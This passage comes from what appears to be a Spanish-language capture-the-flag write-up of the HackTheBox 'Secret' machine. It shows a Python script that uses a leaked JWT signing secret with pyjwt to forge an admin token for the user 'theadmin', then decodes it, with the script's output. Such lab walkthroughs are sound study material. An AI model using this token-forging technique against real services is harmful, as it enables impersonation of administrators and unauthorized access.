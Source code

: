 Nos genera el **JWT** de autenticación, si intentamos descubrir la estructura que existe detrás del token vemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/secret/408google_jwtIO_decodeTOKEN_lanzate.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Ahí (como en la documentación) vemos de que objetos esta compuesto el token de sesión, acá empieza la locura y el toqueteo...

Aprovechemos que tenemos un `TOKEN` y validemos si con él podemos crear **JWT** válidos contra las rutas privadas y convertirnos en `theadmin`, sí, sí, tamos ganaos:

(Usaremos la librería [**pyjwt**](https://pyjwt.readthedocs.io/en/stable/#example-usage) que pueden instalar en **Python** para jugar con los **JSON Web Tokens**)

```python
...
secret_token = "gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE"
...
def priv():
    data_post = {
        "_id": "1",
        "name": "theadmin",
        "email": email,
        "iat": "1"
    }
    jwt_token = jwt.encode(data_post, secret_token, algorithm="HS256")

    print(jwt_token)
...
priv()
```

```bash
❱ python3 playWITHapi.py 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiIxIiwibmFtZSI6InRoZWFkbWluIiwiZW1haWwiOiJhZG1pbkBnbWFpbC5jb20iLCJpYXQiOiIxIn0.utPAjKmYM-37NAcl0g7qXcmuF2alptlYn6BQhnuYzXU
```

SE GENERAAAAAAAAAAAAAAAAAAAA! Así que nuestro token secreto es válido y podemos generar **JSON Web Tooooooooookens**!!

> Con la misma libreria y el -token secreto- podemos ver la data detras del **token**:

---

```python
...
    jwt_token = jwt.encode(data_post, secret_token, algorithm="HS256")

    print(jwt.decode(jwt_token, secret_token, algorithms=["HS256"]))
...
priv()
```

```bash
❱ python3 playWITHapi.py 
{'_id': '1', 'name': 'theadmin', 'email': 'admin@gmail.com', 'iat': '1'}
```
